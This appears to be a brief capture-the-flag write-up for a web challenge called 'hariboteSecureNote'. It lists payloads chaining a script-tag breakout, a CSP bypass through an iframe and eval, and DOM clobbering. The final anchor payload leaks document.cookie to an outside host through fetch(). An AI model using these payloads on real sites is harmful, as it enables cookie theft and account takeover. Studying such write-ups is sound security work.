 # hariboteSecureNote

Key point: XSS, CSP bypass, DOM clobbering attack

* Insert a note that contains `</script>` to break out of that script tag so that we can inject subsequent payloads.

* Insert a note that contains `<iframe src=/profile name=a></iframe>` and modify `shared_user_name` to `";a.eval(""+m)//`. Bypassing the CSP by executing on the `/profile` page. Here, `m` is the payload to be executed.

* Insert a note that contains `<a id="m" href=abc:fetch("//"+document.cookie.substr(13).replaceAll("_",".").replace("}","")+"ip");></a>`.